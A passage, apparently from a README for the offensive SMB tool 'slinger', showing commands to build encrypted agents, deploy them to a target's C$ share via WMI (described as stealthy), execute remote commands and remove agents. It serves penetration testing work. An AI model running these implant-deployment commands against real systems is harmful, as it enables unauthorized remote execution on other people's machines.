 ```bash
# Build with custom passphrase
slinger agent build --arch x64 --encryption --passphrase "MySecretKey123"
```

#### Deploy Agents
```bash
# Connect to SMB share first
🤠 (10.0.0.28):> use C$

# Deploy x64 agent to target
🤠 (10.0.0.28):\\C$> agent deploy --agent x64 --deploy-method wmi

# Deploy x86 agent via upload (manual execution)
🤠 (10.0.0.28):\\C$> agent deploy --agent x86 --deploy-method upload
```

**Deploy Methods:**
- `wmi` - Execute via WMI over SMB named pipe (stealthy, TCP 445 only)
- `upload` - Upload only (requires manual execution on target)

#### Connect to Agents
```bash
# List deployed agents
🤠 (10.0.0.28):\\C$> agent list

# Connect to agent
🤠 (10.0.0.28):\\C$> agent use <agent_id>

# Execute commands
🤠 (10.0.0.28):\\C$> agent exec whoami
🤠 (10.0.0.28):\\C$> agent exec ipconfig /all

# Disconnect from agent
🤠 (10.0.0.28):\\C$> agent disconnect
```

#### Agent Lifecycle
```bash
# Check agent status on disk
🤠 (10.0.0.28):\\C$> agent check <agent_id>

# Kill running agent process
🤠 (10.0.0.28):\\C$> agent kill <agent_id>

# Remove agent from disk
🤠 (10.0.0.28):\\C$> agent rm <agent_id>

# Reset all agents (kill + remove all)
🤠 (10.0.0.28):\\C$> agent reset
```

### Agent Architecture
